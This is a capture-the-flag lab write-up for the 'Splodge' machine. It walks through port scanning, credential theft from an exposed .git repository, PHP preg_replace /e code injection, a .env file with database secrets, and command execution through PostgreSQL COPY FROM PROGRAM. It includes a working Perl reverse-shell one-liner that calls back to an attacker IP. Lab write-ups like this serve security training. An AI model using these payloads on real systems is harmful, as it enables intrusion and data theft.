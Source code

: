 # Splodge

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.108
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:08 +08
Nmap scan report for 192.168.157.108
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste
5432/tcp open  postgresql
8080/tcp open  http-proxy
```

Did a detailed scan for the web ports too:

```
$ sudo nmap -p 80,1337,8080 -sC -sV --min-rate 3000 192.168.157.108     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 10:09 +08
Nmap scan report for 192.168.157.108
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-git: 
|   192.168.157.108:80/.git/
|     Git repository found!
|     .gitignore matched patterns 'bug' 'key'
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: initial commit 
|_    Project type: node.js application (guessed from .gitignore)
|_http-title: 403 Forbidden
1337/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Commando
8080/tcp open  http    nginx 1.16.1
|_http-title: Splodge | Home
|_http-server-header: nginx/1.16.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit
```

There's a `.git` repository.

### Git Repo --> Creds

I downloaded the `.git` repository and looked through the logs with `git log -p -2`. However, it was way too long for me to analyse. Instead, I checked out the repository and checked for passwords:

```
$ grep -R password                                                 
database/migrations/2020_10_10_015036_create_settings_table.php:            $table->string('password');
database/seeds/DatabaseSeeder.php:            'password' => 'SplodgeSplodgeSplodge'
```

### Web Enum + Source Code --> RCE

Port 80 just showed us a 403 page, which was not helpful. Port 1337 did show some potential for RCE:

<figure><img src="../../../.gitbook/assets/image (72) (8).png" alt=""><figcaption></figcaption></figure>

However, I was unable to make anything happen. Port 8080 showed a blog page with an admin login:

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

We can login to the admin panel using `admin:SplodgeSplodgeSplodge`:

<figure><img src="../../../.gitbook/assets/image (44) (1).png" alt=""><figcaption></figcaption></figure>

So now we know that the Git repository is for this application. This panel was rather interesting, because it has a 'Profanity Filter Regex' option, which I presume allows us to specify Regex strings within it.&#x20;

I was unable to find any source code for this Admin Panel specifically, but I can find some code to see what it does within `app/Http/Controllers`:

{% code title="PostController.php" %}
```php
public function comment(Request $request, Post $post)
    {
        error_reporting(E_ALL & ~E_NOTICE & ~E_DEPRECATED);
        $author = $request->input('commentAuthor');
        $message = $request->input('commentMessage');
        $settings = DB::table('settings')->first();
        $message = preg_replace($settings->filter, $settings->replacement, $message);
        DB::table('comments')->insert(['post_id' => $post->id, 'author' => $author, 'message' => $message]);
        $comments = DB::table('comments')->where('post_id', '=', $post->id)->get();
        return view('post', ['post' => $post, 'comments' => $comments]);
    }
```
{% endcode %}

It seems that there's a `preg_replace` function that replaces the regex matches with our replacement.&#x20;

Googling for PHP Regex exploits brings this up:

{% embed url="https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4" %}

From the article above, we can use regex of `/a/e` to inject PHP code. I tested this out:

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Afterwards, I sent one comment with the letter 'a' in it. When I did, I got a hit on my HTTP server:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

We now have RCE over the machine, and we can easily get a reverse shell on port 8080:

<figure><img src="../../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PostgresSQL Creds --> User Shell

We spawned in the `/usr/share/nginx/html` folder, which had a `.env` file:

```
bash-4.2$ ls -al
total 180
drwxr-xr-x. 12   501 games   4096 Oct 17  2020 .
drwxr-xr-x.  5 root  root      49 Oct 17  2020 ..
-rw-r--r--.  1   501 games    362 Oct 17  2020 .env
drwxr-xr-x.  8 root  root     166 Oct 17  2020 .git
-rw-r--r--.  1   501 games    111 Jul  4  2017 .gitattributes
-rw-r--r--.  1   501 games    146 Jul  4  2017 .gitignore
drwxr-xr-x.  7 root  root      98 Oct 17  2020 app
-rwxr-xr-x.  1 root  root    1646 Jul  4  2017 artisan
drwxr-xr-x.  3 root  root      54 Oct 17  2020 bootstrap
-rw-r--r--.  1 root  root    1300 Jul  4  2017 composer.json
-rw-r--r--.  1 root  root  144904 Oct 11  2020 composer.lock
drwxr-xr-x.  2 root  root     209 Oct 17  2020 config
drwxr-xr-x.  5 root  root      90 Oct 17  2020 database
-rw-r--r--.  1 root  root    1043 Jul  4  2017 phpunit.xml
drwxr-xr-x.  3 root  root      71 Oct 17  2020 public
drwxr-xr-x.  5 root  root      45 Oct 17  2020 resources
drwxr-xr-x.  2 root  root      75 Oct 17  2020 routes
-rw-r--r--.  1 root  root     563 Jul  4  2017 server.php
drwxr-xr-x.  5 nginx nginx     46 Oct 17  2020 storage
drwxr-xr-x. 32 root  root    4096 Oct 11  2020 vendor

bash-4.2$ cat .env
APP_NAME=Splodge
APP_ENV=local
APP_KEY=base64:F9jFCNy0vJ1GhEsbf+PjmTSSHk8u741C5XNTN1Rguow=
APP_DEBUG=false
APP_LOG_LEVEL=info
APP_URL=http://splodge.offsec

DB_CONNECTION=pgsql
DB_HOST=127.0.0.1
DB_PORT=5432
DB_DATABASE=splodge
DB_USERNAME=postgres
DB_PASSWORD=PolicyWielderCandle120

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
QUEUE_DRIVER=sync
```

There's a database password there. We can then login with `psql` after fixing the `PATH` variable of this shell:

{% code overflow="wrap" %}
```
bash-4.2$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH

bash-4.2$ psql -U postgres -d splodge -h localhost
Password for user postgres: 
psql (12.4)
Type "help" for help.

splodge=# 
```
{% endcode %}

There's a feature within PostgreSQL that allows us to execute commands:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

We can just get another reverse shell using this:

{% code overflow="wrap" %}
```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.196:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (33) (5).png" alt=""><figcaption></figcaption></figure>

The payload is taken from Hacktricks.

### Root

User can run `bash` as `root`:

<figure><img src="../../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>
